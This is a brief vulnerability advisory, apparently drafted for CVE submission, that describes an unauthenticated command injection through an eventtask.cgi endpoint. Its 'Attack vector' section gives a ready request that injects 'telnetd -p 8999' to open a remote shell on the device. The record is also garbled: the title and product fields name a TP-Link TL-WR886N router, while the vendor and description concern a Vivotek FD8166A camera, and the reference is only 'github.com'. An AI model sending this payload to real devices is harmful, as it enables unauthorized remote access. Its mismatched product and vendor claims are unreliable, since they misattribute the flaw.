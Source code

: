 # Tplink-wr886n-v6-cloud_config-device_legality_illegal-dos-submit

## Vulnerability type

command injection  

## Vendor of the product(s)

vivotek

## Product

tp-link-450M  
<https://www.tp-link.com.cn/product_733.html>
TP-Link TL-WR886N 6.0 2.2.6

## Attack type

Remote

## Impact

Denial of Service & Rebound shell

## Affected component(s)

TP-Link TL-WR886N 6.0 2.2.6

## Attack vector(s)

```python
http://192.168.1.107/cgi-bin/admin/eventtask.cgi?method=exec&file=telnetd%20-p%208999
```

## Suggested description of the vulnerability for use in the CVE

Issue found on vivotek FD8166A device. An unauthenticated attacker can use the data interface of eventtask.cgi to carefully construct a payload to complete a command injection attack. An issue was discovered on vivotek FD8166A. An unauthenticated attacker can send a request through the eventtask.cgi interface. After cgi is processed, the input is not strictly verified, resulting in imperfect filtering. Ultimately, the attacker can control the parameters of the System function to achieve unauthorized arbitrary command injection.

## Discoverer(s)/Credits

ljzjsc

## Reference(s)

github.com

## Additional information
